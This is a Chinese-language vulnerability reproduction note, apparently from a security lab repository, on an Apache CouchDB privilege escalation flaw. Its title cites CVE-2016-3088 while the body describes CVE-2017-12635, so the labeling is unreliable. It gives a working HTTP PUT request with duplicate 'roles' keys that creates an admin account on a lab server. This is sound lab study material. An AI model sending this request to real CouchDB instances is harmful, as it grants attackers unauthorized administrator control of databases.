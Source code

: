 # Couchdb 垂直权限绕过漏洞 (CVE-2016-3088)

> 漏洞说明

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。



> 前提条件

版本：Apache CouchDB < 1.7.0	Apache CouchDB < 2.1.1



> 利用工具



> 漏洞复现

启动环境，访问http://192.168.40.77:5984/_utils/

![image-20221230135700586](../img/Apache-CouchDB_CVE-2017-12635/image-20221230135700586.png)

发送数据包

```http
PUT http://192.168.40.77:5984/_users/org.couchdb.user:tomato HTTP/1.1
Host: 192.168.40.77:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 112

{
  "type": "user",
  "name": "tomato",
  "roles": ["_admin"],
  "roles": [],
  "password": "123456"
}


```

可以看到成功添加用户tomato

![image-20221230205337758](../img/Apache-CouchDB_CVE-2017-12635/image-20221230205337758.png)

此时登录账号tomato/123456即可进入管理员后台

![image-20221230205605479](../img/Apache-CouchDB_CVE-2017-12635/image-20221230205605479.png)
